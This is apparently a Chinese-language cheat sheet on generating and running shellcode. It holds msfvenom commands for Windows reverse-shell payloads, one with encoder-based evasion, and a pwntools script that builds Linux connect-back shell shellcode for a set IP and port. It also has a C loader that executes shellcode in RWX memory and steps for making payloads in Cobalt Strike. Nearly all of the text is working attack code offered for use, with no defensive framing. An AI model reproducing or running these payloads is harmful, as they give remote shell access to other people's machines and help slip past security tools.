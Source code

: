 ### Shellcode生成

Metasploit
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=攻击者主机IP地址 LPORT=4444 -f c
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.4 LPORT=4444 -f c -a x86 -e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d'
```



Pwntools
```Bash
pip install pwntools
```

Pwntools.py
```python
from pwn import *

# 设置目标IP和端口ip = "192.168.0.189"
port = 4444

# 生成反向shell的Shellcode
context(arch='amd64', os='linux')
shellcode = shellcraft.amd64.linux.connect(ip, port)
shellcode += shellcraft.amd64.linux.dupsh()

# 将Shellcode转换为机器码shellcode = asm(shellcode)

print("Generated Shellcode:")
print(shellcode)
print("Shellcode Length:", len(shellcode))
```

嵌入Shellcode
```c
#include <Windows.h>

int main()
{
	const char shellcode[] = "Metasploit生成的Shellcode";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

Cobalt Strike
```Bash
在Cobalt Strike中，选择“Attacks” -> “Packages” -> “Payload Generator”，然后选择目标平台和Payload类型，生成Shellcode
```
